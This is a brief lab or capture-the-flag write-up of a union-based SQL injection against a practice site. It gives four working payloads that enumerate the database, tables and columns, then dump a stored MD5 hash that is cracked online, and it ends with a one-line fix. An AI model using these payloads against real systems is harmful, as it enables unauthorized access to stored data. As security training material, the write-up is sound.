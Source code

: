 # Tools

-[Hash analyzer](https://www.tunnelsup.com/hash-analyzer/#google_vignette)
-[Hex Encoder](https://www.convertstring.com/EncodeDecode/HexEncode)

# Exploit

1. `1 union all select database(), version()` to get the database name and it's version: `Member_images`
2. `1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database()` to get tables name: `list_images`
3. We hex-encode the table name and use `1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x6C6973745F696D61676573` to get the columns: `id,url,title,comment`
4. `1 union all select 1,group_concat(comment,0x0a) from list_images` -> `1928e8083cf461a51303633093573c46` that we paste in google and it gives us `albatroz`

# Patch

Prepare the input and sanitize the query